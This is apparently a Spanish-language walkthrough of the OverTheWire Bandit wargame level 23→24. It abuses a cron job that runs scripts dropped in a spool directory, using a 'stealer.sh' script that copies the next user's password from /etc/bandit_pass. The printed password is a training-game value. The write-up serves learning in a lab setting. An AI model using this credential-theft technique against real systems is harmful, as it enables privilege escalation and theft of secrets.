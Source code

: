 El nivel comienza de la misma forma que los anteriores.

```bash
$ ls -al /etc/cron.d/
$ cat /etc/cron.d/cronjob_bandit24
$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Vemos que ahora, la tarea ejecuta todos los comandos del directorio `/var/spool/$myname/foo`, con `myname=bandit24`.

Primero creamos un directorio temporal, y luego creamos un script que
utilizaremos para obtener la contraseña

```bash
$ cd $(mktemp -d)
$ vim stealer.sh
```

El script debe leer la calve y guardarla en un archivo de la carpeta temporal

```bash
#!/bin/bash

name=$(whoami)
cat /etc/bandit_pass/$name > /tmp/uA4Dcs6VmDWPtw/$name
```

Luego, le damos permisos de ejecución al script. y creamos el archivo objetivo
para poder darle permisos de escritura a todos los usuarios. De esta forma
bandit24 podrá escribir su contraseña allí.

```bash
$ chmod +x stealer.sh
$ touch bandit24
$ chmod 666 bandit24
```

Finalmente copiamos el script a la carpeta leida por bandit24, esperamos un
minuto, y leemos el resultado

```bash
$ cp stealer.sh -t /var/spool/bandit24/foo
$ sleep 60; cat /tmp/uA4Dcs6VmDWPtw/bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

